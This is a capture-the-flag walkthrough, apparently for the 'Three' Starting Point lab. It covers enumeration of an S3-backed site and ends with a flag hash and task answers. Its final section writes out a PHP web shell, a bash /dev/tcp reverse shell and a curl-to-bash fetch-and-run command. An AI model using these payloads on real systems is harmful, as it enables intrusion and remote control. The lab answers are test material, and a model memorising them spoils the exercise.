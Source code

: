 ### Three

**OS:** Linux<br>
**Difficulty:** Very Easy<br>
**Collection:** [Starting Point Tier 1](/StartingPoint/Tier1/)<br><br>
**Tags:** Cloud, Custom Applications, AWS, Reconnaissance, Web Site Structure Discovery, Bucket Enumeration, Arbitrary File Upload, Anonymous/Guest Access<br>


---

#### Task 1

**How many TCP ports are open?**

> 2

We use the `nmap` command with the `-sT` flag to scan TCP ports.
![Nmap TCP Scan](open_ports.png)



---

#### Task 2

**What is the domain of the email address provided in the "Contact" section of the website?**

> thetoppers.htb

We navigate to the contact page on the website:

![Contact Email Domain](contact.png)



---

#### Task 3

**In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames?**

> /etc/hosts

![Adding Host](adding_host.png)



---

#### Task 4

**Which sub-domain is discovered during further enumeration?**

> s3.thetoppers.htb

First we use `wget` to download a [dns subdomain wordlist](https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/DNS/subdomains-top1million-5000.txt) as `wordlist.txt`. Using gobuster, we enumerate vhosts using the our downloaded wordlist. We use the `--apend-domain` flag to get only subdomains of `thetoppers.htb`.

![Subdomain](subdomain.png)



---

#### Task 5

**Which service is running on the discovered sub-domain?**

> Amazon s3



---

#### Task 6

**Which command line utility can be used to interact with the service running on the discovered sub-domain?**

> awscli



---

#### Task 7

**Which command is used to set up the AWS CLI installation?**

> aws configure



---

#### Task 8

**What is the command used by the above utility to list all of the S3 buckets?**

> aws s3 ls

After using the `aws configure` command, we use the `aws s3 ls` command with the endpoint set to `http://s3.thetoppers.htb` the list all the s3 buckets:

![List S3 Buckets](s3_buckets.png)



---

#### Task 9

**This server is configured to run files written in what web scripting language?**

> php

We use the `aws s3 ls` command again to view all the files in the s3 bucket. It seems as though this bucket is hosting a website written in php.

![php Website](language.png)



---

#### Flag

> a980d99281a28d638ac68b9bf9453c2b

First make a `shell.php` file (on our computer) which allows us to make a syscall executing a command `cmd`:

```php
<?php system($_GET["cmd"]); ?>
```

We add our `shell.php` to the s3 bucket which hosts our php shell as a page on the `http://thetoppers.htb` website. Now we send commands to our php shell (which are executed on the webserver) by visiting `http://thetoppers.htb/shell.php?cmd={shell cmd}`. The resulting page content is the output from the commands we send:
![PHP Shell](php_shell.png)

Next we make a `shell.sh` file. We setup a socket on our computer on port `12345`. We use the `0>&1` operator to allow us to read inputted commands from our socket. We use the `bash -i` command to actually execute these commands on our computer and use the `>&` operator to redirect our output from our command to our socket:

```bash
#!/bin/bash
bash -i >& /dev/tcp/{Our IP}/12345 0>&1
```

We the use the `nc -lp` command to set up a listener on port `12345` of our computer:

![Reverse Bash Shell](reverse_shell.png)

Next we setup an http server on port `8080` of our computer. This http server hosts our `shell.sh` file allowing other computers to access the file via the server:

![Setting Up HTTP Server](http_server.png)

Lastly we visit `http://thetoppers.htb/shell.php?cmd=curl%20{Our IP}:8080/shell.sh|bash`. This uses our php shell `shell.php` on the webserver to visit the HTTP server hosted on our computer to download our bash shell `shell.sh` We use `|bash` to actually execute commands given to our bash shell via netcat (on our computer) on the webserver. Since we also up a listener on netcat, we can see the output of the commands executed on the webserver.

Using our reverse shell, we search for the `flag.txt` file and then display its contents:

![Final Reverse Shell](reverse_shell2.png)

---